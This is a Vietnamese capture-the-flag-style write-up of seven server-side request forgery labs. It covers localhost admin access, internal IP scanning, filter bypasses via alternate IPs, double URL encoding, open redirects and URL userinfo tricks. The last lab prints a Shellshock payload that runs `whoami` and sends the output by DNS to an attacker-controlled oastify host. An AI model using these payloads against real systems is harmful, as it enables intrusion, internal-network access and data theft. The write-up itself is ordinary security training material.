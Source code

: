 # Server-side request forgery

## Bài 1: Basic SSRF against the local server
>![](https://i.imgur.com/vCjx8lz.png)
<hr>


Mô tả: Chức năng `stock check` của trang web fetch data từ nguồn bên trong nội bộ, khai thác SSRF để chuyển hướng request khiến server fetch data từ trang `/admin` và trả về. Sau đó xóa user `carlos`

Kiểm tra chức năng ta thấy nó gửi value như sau đến server
```htmlembedded
<select name="stockApi">
    <option value="http://stock.weliketoshop.net:8080/product/stock/check?productId=1&amp;storeId=1">London</option>
    <option value="http://stock.weliketoshop.net:8080/product/stock/check?productId=1&amp;storeId=2">Paris</option>
    <option value="http://stock.weliketoshop.net:8080/product/stock/check?productId=1&amp;storeId=3">Milan</option>
</select>
```

Mỗi option stock check sẽ gửi một đường link đến server, và server sẽ fetch từ đường link đó. Vậy để fetch trang admin ta đổi giá trị của 1 option thành `http://localhost/admin`

>![](https://i.imgur.com/8Foppxe.png)


Để xóa user `carlos` ta đổi đường dẫn thành `http://localhost/admin/delete?username=carlos`
>![](https://i.imgur.com/haMmPqz.png)


<hr>

## Bài 2: Basic SSRF against another back-end system
>![](https://i.imgur.com/SPnzOjZ.png)


Mô tả: Đề không cho trước địa chỉ IP của backend system, chỉ biết nó có dạng `192.168.0.X` và port `8080`. Ta sẽ phải scan ra và khai thác ssrf để xóa user carlos

Sử dụng Burpsuite Intruder để scan từ 1 đến 255 ta được kết quả là địa chỉ: 192.168.0.29
>![](https://i.imgur.com/DzujkrC.png)

<hr>

## Bài 3: SSRF with blacklist-based input filter
>![](https://i.imgur.com/2EGA1l0.png)


Mô tả: Nhà phát triển đã triển khai hai hệ thống phòng thủ chống SSRF yếu mà bạn sẽ cần phải vượt qua. 

Thử truyền đường dẫn như `http://localhost/`, `http://127.0.0.1` thì thấy đã bị server chặn bằng blacklist.
`"External stock check blocked for security reasons"`

Thử các alternative IP của 127.0.0.1 như là `2130706433`, `017700000001`, hoặc `127.1` thì ta thấy `127.1` có thể bypass được.
>![](https://i.imgur.com/pXRtQPm.png)

Tuy nhiên nếu truyền `/admin` vào thì lại bị chặn, thử urlencode (double) nó ta thấy có thể bypass.
`http://127.1/%2561%2564%256d%2569%256e`

Xóa user `carlos` và solve bài lab:
>![](https://i.imgur.com/ptQKLU7.png)

<hr>


## Bài 4: SSRF with filter bypass via open redirection vulnerability
>![](https://i.imgur.com/9KlB7LY.png)


Mô tả: Chức năng `stock checker` đã hạn chế chỉ cho phép truy cập vào các ứng dụng nội bộ, mục tiêu của ta là khiến nó fetch data từ trang `http://192.168.0.12:8080/admin` (không phải nội bộ) và sau đó xóa user `carlos`

Vì `stock checker` không truy cập vào các đường dẫn bên ngoài mạng nội bộ, tức là nó sẽ dùng whitelist để lọc các đường dẫn mà nó sẽ fetch, vì thế ta cần lợi dụng các chức năng cho phép redirect tới 1 đường dẫn mà ta có thể kiểm soát.

Lướt qua các request, ta thấy chức năng `Next product` nhận tham số `path` để redirect tới sản phẩm khác, tham số này ta có thể kiểm soát.
>![](https://i.imgur.com/1OyYdJR.png)


Thay `path` bằng đường dẫn tới trang mà đề cho để truy cập admin, sau đó, ta đưa request này cho chức năng `stock checker`. Nó kiểm tra và thấy đường dẫn `/product/nextProduct` thuộc ứng dụng nội bộ, nên sẽ fetch data từ đường dẫn này, tham số `path` mà ta inject sẽ điều hướng request tới một trang bên ngoài.

`stockApi=/product/nextProduct?currentProductId=2%26path=http://192.168.0.12:8080/admin/delete?username=carlos`

>![](https://i.imgur.com/QJdU1fd.png)


<hr>

## Bài 5: Blind SSRF with out-of-band detection
>![](https://i.imgur.com/zWXAMpS.png)


Mô tả: Trang web sử dụng phần mềm phân tích để fetch URL được khai báo trong trường `Referer` của HTTP Header khi trang sản phẩm load. Mục tiêu của ta là khai thác để server gửi request tới Burp Collaborator server của mình.

Khi mở 1 sản phẩm bất kì, ta thấy request có chứa trường `Referer`, thay đổi giá trị của nó thành đường dẫn tới Burp Collaborator server của ta, ta thấy đường dẫn đã được fetch, và solve bài lab.
>![](https://i.imgur.com/dwD9n2H.png)

<hr>


## Bài 6: SSRF with whitelist-based input filter
>![](https://i.imgur.com/pxO7UIT.png)


Mô tả: `The developer has deployed an anti-SSRF defense you will need to bypass.`

Thử inject đường dẫn `http://localhost/admin` ta thấy nó trả về thông báo như sau
<kbd>"External stock check host must be stock.weliketoshop.net"</kbd>
Nghĩa là mọi đường dẫn của ta phải thuộc host <kbd>stock.weliketoshop.net</kbd>

Để kiểm tra xem server kiểm tra như thế nào, ta thử các trường hợp như là:
- Server kiểm tra xem host có CHỨA `stock.weliketoshop.net` ta dùng payload như là `http://localhost#stock.weliketoshop.net:8080` hay `http://stock.weliketoshop.net.our-domain` và quan sát thấy vẫn bị block
- Server thật sự kiểm tra phần host trong request: ta thử `http://xxx@stock.weliketoshop.net`
>![](https://i.imgur.com/Q1Qiewe.png)

Như hình trên ta thấy có thể chèn thêm dữ liệu vào phần `username` trong đường dẫn, và em đã chèn localhost. Để gạt bỏ phần phía sau đi ta có thể dùng fragment <kbd>#</kbd>. Tuy nhiên điều đó làm thay đổi host và bị server block.

Thử encode và double encode ta thấy có thể bypass được việc kiểm tra host của server và đến được trang có admin panel khi server thực hiện fetch (phần sau fragment sẽ bị bỏ đi)
>![](https://i.imgur.com/cKnUKau.png)


>![](https://i.imgur.com/BXgAVj3.png)

<hr>

## Bài 7: Blind SSRF with Shellshock exploitation
>![](https://i.imgur.com/mQTtycP.png)

Mô tả: Trang web sử dụng công cụ phân tích để fetch đường dẫn trong trường `Referer`. Mục tiêu là sử dụng chức năng này để thực hiện `blind SSRF` gửi request tới máy 192.168.0.X:8080 trong mạng nội bộ, đồng thời sử dụng `Shellshock payload` tại 1 điểm vulnerable trong http request để khai thác lấy tên của OS user trên máy đó.

Đầu tiên thử dùng Burp Intruder brute force địa chỉ IP của máy nạn nhân, nhưng tất cả kết quả trả về đều như nhau.

Chuyển sang tìm kiếm điểm khai thác ssrf lấy os user name, em sử dụng `Collaborator everywhere` hỗ trợ. Sau khi sử dụng lại trang web, kiểm tra scan tự động thì thấy có cảnh báo hiện lên như sau:
>![](https://i.imgur.com/OxYF3PB.png)


Đoán rằng trường `user-agent` đang bị lỗ hổng ssrf, em thử dùng payload như sau
Payload shellshock
`() { :; }; /usr/bin/nslookup $(whoami).v0w7km5k6gzs3hgzx2kjx59yrpxfl4.oastify.com`

Bash shell coi bộ dấu () { :; }; như là một khai báo hàm, và shell sẽ "đánh giá" chức năng của hàm đó. Tuy nhiên nó cũng đánh giá các chuỗi còn lại, khiến shell vô tình thực thi đoạn code độc hại phía sau. (lưu ý rằng nếu ko có định nghĩa hàm thì shell sẽ không đánh giá và -> không thực thi lệnh độc hại chèn vào như trên.
vậy payload sẽ khiến shell xử lý chuỗi user-agent theo kiểu khác, nó sẽ thực hiện câu lệnh phía sau rồi lấy kết quả trả về chứ không lấy trực tiếp chuỗi. Và điều đó sẽ khiến máy nạn nhân gửi 1 request nslookup chứa kết quả lệnh `whoami`

Request DNS gửi tới máy chủ ta kèm theo username
>![](https://i.imgur.com/uwYGdlL.png)


Submit là ta solve
>![](https://i.imgur.com/UgmGKP1.png)


<hr>


